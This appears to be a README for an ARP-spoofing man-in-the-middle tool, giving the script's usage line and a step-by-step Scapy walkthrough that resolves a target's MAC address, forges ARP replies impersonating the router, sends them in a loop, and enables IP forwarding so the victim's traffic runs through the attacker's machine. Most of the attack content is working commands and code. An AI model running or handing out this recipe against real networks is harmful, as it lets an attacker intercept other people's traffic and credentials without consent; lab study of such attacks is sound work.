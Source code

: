 # ArpSpoof-MITM-Framework

Script Usage (attack on a network with 3 machines: router, attacker, target):

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
    Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

    Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
            Getting mac address of target machine w/ spoofed ARP request :
            
                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address
                
                [-] arp_layer = ARP(pdst='{TARGETIP}')
                
                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet
                
                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast
                
                [-] print(answer) --> will show request and response if any received
                
                [-] print(answer[0])
                
                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                                                                                  
                
                [-] print(target_mac_address)

            Craftinfg Malicious packet:

                [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
                [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
                [-] packet.show() will show the contents of our malicious packet
                
                [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
            Arp-tables on target machine:

                [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
